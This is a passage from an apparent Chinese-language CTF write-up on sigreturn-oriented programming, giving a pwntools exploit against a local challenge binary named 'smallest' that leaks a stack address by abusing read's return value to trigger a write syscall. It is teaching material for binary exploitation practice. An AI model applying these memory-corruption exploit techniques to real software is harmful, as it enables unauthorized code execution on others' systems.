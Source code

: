   ![](img/stack/srop3.JPG)

  对应的exp：

  ```python
  # -*- coding: utf-8 -*-
  from pwn import *
  
  context(os='linux',arch='amd64',log_level='debug')
  p = process('./smallest')
  
  main_addr = 0x04000B0
  syscall_addr = 0x04000BE
  
  #三次main_addr是为了构造后面三次跳转
  payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
  p.send(payload)
  #程序成功将三个地址写入栈中，此时执行ret后将程序返回至main_addr,而esp指向第二个main_addr
  #进行新一轮的read，发送3的目的是将当前esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的0x04000B0会变成0x04000B3,这个地址正好对应的是mov  edx, 400h，跳过了xor rax,rax(将rax的值变成0)，read函数的特性，写入了一个字符后，将写入的长度存放在rax，也就是为1，接着执行到ret，将程序返回至0x04000B3，此时esp指向的是刚开始的第三个main_addr
  #由于rax里面的值为1，正好是write函数的系统调用号，也就意味着接下来执行的是write函数,而需要输出的首地址是esp，此时第一个存放的是main_addr,接下来的8到16就是我们需要得到的地址
  #输出地址后，程序执行ret，此时程序又返回到main_addr,程序重新开始
  p.send('\xb3')
  #得到栈地址
  stack_addr = u64(p.recv()[8:16])
  print("stack addr:"+hex(stack_addr))
  ```

  成功得到栈地址

+ 使用pwntools的SigreturnFrame构造read(0,stack_addr,0x400)
